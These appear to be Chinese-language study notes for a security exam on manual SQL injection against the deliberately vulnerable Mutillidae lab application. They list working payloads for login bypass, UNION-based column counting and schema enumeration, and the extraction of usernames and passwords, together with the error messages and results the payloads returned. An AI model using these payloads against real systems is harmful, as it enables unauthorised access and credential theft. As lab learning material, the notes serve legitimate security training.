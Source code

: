 ## **登录页面和用户信息的手动 SQL 注入**

**以防 sqlmap 失败或花费太长时间。你可能不得不求助于人工注射。这变得非常令人恼火，在注入有效载荷中保留空格是非常重要的，因为您可能会收到错误。这排除了您可能不得不做的任何编码或其他规避，这在 GSE 中是不太可能的，但知道这一点是有好处的。为了完成类似的用户登录页面和提取帐户机密这里是我的手动有效载荷试验和一些收到的错误。**

**请记住，要枚举表，您需要以“ORDER”语句或“UNION SELECT NULL，...”开始，以递增的方式确定需要与字段对齐的列数。**

**![](img/871e93d773754d988ee489e988e214d5.png)**

```
Login bypass in username field without double quotes. Notice the space after the comment out syntax.
"' OR 1=1-- "

'UNION SELECT NULL, @@version, NULL, NULL, NULL -- 

https://www.securitynik.com/2017/02/beginning-web-application-testing-sql.html
admin' UNION SELECT NULL,table_name,column_name,NULL,NULL,NULL,NULL FROM information_schema.columns -- 

------
' UNION SELECT username, password FROM accounts -- 
Error executing query: The used SELECT statements have a different number of columns

https://portswigger.net/web-security/sql-injection/union-attacks
' ORDER BY 6-- 
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- 
Results for . 1 records found.

Username=
Password=
Signature=

' UNION SELECT username, password, signature, NULL, NULL FROM accounts -- 
Line	126
Code	0
File	/var/www/mutillidae/user-info.php
Message	Error executing query: Unknown column 'signature' in 'field list'
Trace	#0 /var/www/mutillidae/index.php(469): include() #1 {main}

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts -- 
Username=adminpass
Password=
Signature=
```